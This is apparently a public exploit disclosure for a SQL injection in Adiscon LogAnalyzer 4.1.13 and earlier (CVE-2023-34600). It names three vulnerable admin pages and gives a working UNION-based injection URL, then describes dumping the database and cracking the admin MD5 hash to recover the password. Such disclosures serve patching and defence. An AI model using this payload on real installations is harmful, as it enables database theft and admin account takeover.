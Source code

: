# Exploit Title: Adiscon LogAnalyzer v4.1.13 and before is vulnerable to SQL Injection.
# Date: 2023-06-20
# Exploit Author: Pedro (ISSDU TW)
# Category : Webapps
# Vendor Homepage: https://loganalyzer.adiscon.com/
# Version: v4.1.13 and before
# Tested on: Linux
# CVE : CVE-2023-34600


Screen:
![image](https://github.com/costacoco/Adiscon/assets/48556345/58aa7a9e-932d-42a0-a1ad-9aec887f209f)

We found three SQL Injection point
/admin/searches.php (need Read-only user or admin)
/admin/users.php (need admin)
/admin/groups.php (need admin)

screen of SQL injection

http://{ip}/loganalyzer/admin/searches.php?op=edit&id=-8%20union%20all%20select%201,user(),@@version,4,5--
![image](https://github.com/costacoco/Adiscon/assets/48556345/930ac46a-e88f-4366-8ee9-54a2a9d95bbc)

screen of db dump
![image](https://github.com/costacoco/Adiscon/assets/48556345/98862081-ff0c-4a2e-87d9-87b18afa6228)
![image](https://github.com/costacoco/Adiscon/assets/48556345/e94afe1b-4e2d-4d72-81b2-d37d39f7ba55)
![image](https://github.com/costacoco/Adiscon/assets/48556345/facf564a-ff4a-498d-91f8-83e494d0428e)

Because it used basic md5 hash, so we can try to dehash it

screen of dehash
![image](https://github.com/costacoco/Adiscon/assets/48556345/5f8e3296-8bb5-4088-bedf-9a20b4af0760)

Then, we got the admin  password


[Reference]
https://loganalyzer.adiscon.com/

------------------------------------------

